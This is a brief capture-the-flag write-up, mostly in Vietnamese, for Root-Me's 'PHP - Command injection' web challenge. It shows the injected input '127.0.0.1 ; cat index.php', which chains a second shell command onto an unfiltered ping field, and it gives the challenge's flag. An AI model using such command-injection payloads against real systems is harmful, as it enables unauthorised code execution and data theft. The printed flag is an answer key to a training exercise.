




# PHP- Command injection

```HTML
 *** Link :http://challenge01.root-me.org/web-serveur/ch54/
```

## Request





## Solution

```HTML
***  Do input chưa có filter nên dễ dàng chèn các câu lệnh command thực thi vào như cat, ls, ...
    Vì : flag nằm trong file index.php, nên ta sẽ dùng câu lệnh cat để đọc file

```

#### Step1: Nhập : 127.0.0.1 ; cat index.php



#### Step2: Tìm trong source



```HTML
*** Vậy flag: S3rv1ceP1n9Sup3rS3cure

```
